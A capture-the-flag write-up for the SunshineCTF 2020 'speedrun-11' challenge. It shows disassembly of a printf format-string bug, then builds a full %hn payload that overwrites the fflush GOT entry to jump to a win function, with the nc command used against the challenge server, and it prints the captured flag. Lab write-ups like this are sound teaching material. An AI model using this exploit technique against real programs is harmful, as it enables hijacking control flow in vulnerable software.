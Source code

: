 # speedrun-11

## Task

nc chal.2020.sunshinectf.org 30011

File: chall_11

Tags: binary exploitation, format string vulnerability

## Solution

In the `sym.vuln` function we now can see a format string vulnerability.

```nasm
[0x080483d0]> pdf@sym.vuln
            ; CALL XREF from main @ 0x80485bb
┌ 97: sym.vuln ();
│           ; var char *format @ ebp-0xd0
│           ; var int32_t var_4h @ ebp-0x4
│           0x08048511      55             push ebp
│           0x08048512      89e5           mov ebp, esp
│           0x08048514      53             push ebx
│           0x08048515      81ecd4000000   sub esp, 0xd4
│           0x0804851b      e800ffffff     call sym.__x86.get_pc_thunk.bx
│           0x08048520      81c3e8130000   add ebx, 0x13e8
│           0x08048526      8b83fcffffff   mov eax, dword [ebx - 4]
│           0x0804852c      8b00           mov eax, dword [eax]
│           0x0804852e      83ec04         sub esp, 4
│           0x08048531      50             push eax                    ; FILE *stream
│           0x08048532      68c7000000     push 0xc7                   ; 199 ; int size
│           0x08048537      8d8530ffffff   lea eax, [format]
│           0x0804853d      50             push eax                    ; char *s
│           0x0804853e      e83dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08048543      83c410         add esp, 0x10
│           0x08048546      83ec0c         sub esp, 0xc
│           0x08048549      8d8530ffffff   lea eax, [format]
│           0x0804854f      50             push eax                    ; const char *format
│           0x08048550      e80bfeffff     call sym.imp.printf         ; int printf(const char *format)
│           0x08048555      83c410         add esp, 0x10
│           0x08048558      8b83fcffffff   mov eax, dword [ebx - 4]
│           0x0804855e      8b00           mov eax, dword [eax]
│           0x08048560      83ec0c         sub esp, 0xc
│           0x08048563      50             push eax                    ; FILE *stream
│           0x08048564      e807feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x08048569      83c410         add esp, 0x10
│           0x0804856c      90             nop
│           0x0804856d      8b5dfc         mov ebx, dword [var_4h]
│           0x08048570      c9             leave
└           0x08048571      c3             ret
```

We read in a format and use that as the first argument for `printf`. If we use formatting characters like `%x` or `%p` it will print out stack data since it hase no more parameters initialized.

First we need to find our offset:

```bash
$ python2 -c "print('\nAAAABBBB'+'%x '*60)" | ./chall_11
So indeed
AAAABBBBc7 f7f2a580 8048520 0 0 41414141 42424242 25207825 78252078 ....
```

If you don't know how format string exploits work, this is a great explanation: https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

So we can write to the address in value 6 `0x41414141` with the counter in `%n`.

To get in control of the flow we are going to write the address of the `win` function into the `reloc.fflush` address so that we jump there when `sym.imp.fflush` is first called.

Since the address in `reloc.fflush` starts with `0x0804` as our `win` function does we only have to write 2 bytes. (`win` at `0x080484e6`)

We can do that by writing our first 4 bytes, then enough chars to increase the value written by `%n` (8 bytes written, 0x84e6 - 8). We can do that with `%x34022`.

Then we use `%6$hn` to write the integer into the address in value 6.

`\x18\x99\x04\x08%34022x%6$hn'`

Then we can pipe that together with a cat (to keep the input open) to the server:

(python2 -c "print('\n'+payload)";cat) | nc chal.2020.sunshinectf.org 30011

And get the flag:

```
ls
chall_11
flag.txt
cat flag.txt
sun{afterlife-4b74753c2b12949f}
```
